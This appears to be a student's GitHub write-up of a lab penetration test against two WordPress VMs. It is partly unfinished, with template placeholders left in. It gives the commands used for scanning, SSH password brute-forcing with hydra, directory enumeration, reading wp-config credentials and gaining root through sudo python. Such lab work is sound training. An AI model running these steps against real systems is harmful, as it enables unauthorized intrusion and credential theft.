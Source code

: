 # WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Final%20Proj%20Topology%20(Updated).png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/var/www/html/vendor)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1

Before we began, we ran an enumeration scan to uncover the users and hidden directories within the Target.  
- Command used: wpscan --url http://192.168.1.110/wordpress --wp-content-dir -at -eu 
- This command uncovered user names steven and michael.  
   ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM1%20wpscan%20michael.png)

- Once I obtained the usernames I was able to run a hydra command to obtain the password.  As noted above, port 22 is open so I wanted to obtain the password that could be used to SSH into the machine.
- Command used: hydra -l michael -P /usr/share/john/password.lst -vV 22:192.168.1.110
- This command exposed "michael" as the password for the username "michael".  Utilizing ssh michael@192.168.1.110 with password "michael" I was able to gain access to Target 1.  
   
- flag1.txt: 9bbcb33e11b80be759c4e844862482
   - dirbuster was used to uncover the file path that led to the flag exposure.  http://192.168.1.110/service.html.  Utilizing inspector it was uncovered the flag was exposed in plain text.
   - dirbuster command: dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
   
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/flag%201%20vm1.png)
     
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
   - gobuster exposed directory path (flag was discovered at 192.168.1.110/vendor/PATH)
   - gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.110 
   
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/gobuster%20vm1.png)
     
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/VM2%20Index_Vendor.png)
     
     ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/dirbuster%20path%20to%20flag2.png)    
     
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
  - I was able to expose the username and password for the MySQL database once I discovered I had access to the wp-config.php file while logged in as michael.
  
    ![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nano%20wp-config.png) 
    
    ![TODO:](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Find%20IP%20for%20mysql.png) 
    
- command: mysql -u root -p wordpress .  Once I entered this command it prompted me to enter my password.  Usuing the root password above I was able to login to the mysql database.  From there I ran the following commands -> show databases; -> use wordpress -> show tables; -> select * from wp_posts

![TODO: Update the path with the name of your diagram](html)

- flag4.txt: 715dea6c055b9fe3337544932f2941ce
  - Exploit Used
   - john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
   - ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
 - Exploit Used 
   ![TODO:](html) gobuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
   ![TODO:](html) gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115
- flag2.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
 - Exploit Used
   ![TODO:](html) dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
   ![TODO:](html) dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag4.txt: 
 - Exploit Used
   ![TODO:](html) Identify the exploit used.
   ![TODO:](html) Include the command run.

